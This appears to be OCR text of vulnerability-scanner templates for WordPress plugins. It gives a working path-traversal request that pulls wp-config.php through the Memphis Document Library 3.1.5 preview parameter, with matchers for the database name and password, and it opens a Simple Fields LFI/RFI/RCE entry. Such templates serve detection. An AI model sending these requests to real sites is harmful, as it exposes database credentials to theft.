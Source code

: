 **Type - status**

- status
  1. 200

---

# WordPress Memphis Document Library 3.1.5 - Local File Inclusion

## Description

- WordPress Memphis Document Library 3.1.5 is vulnerable to local file inclusion.
- severity - high
- tags - wpscan,wordpress,wp-plugin,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/mdocs-posts/?mdocs-img-preview=../../../wp-config.php
- {{BaseURL}}/?mdocs-img-preview=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Simple Fields 0.2 - 0.3.5 LFI/RFI/RCE

## Description

- WordPress Simple Fields 0.2 is vulnerable to local file inclusion, remote file inclusion, and remote code execution.
- severity - high
- tags - wp-plugin,lfi,packetstorm,wordpress
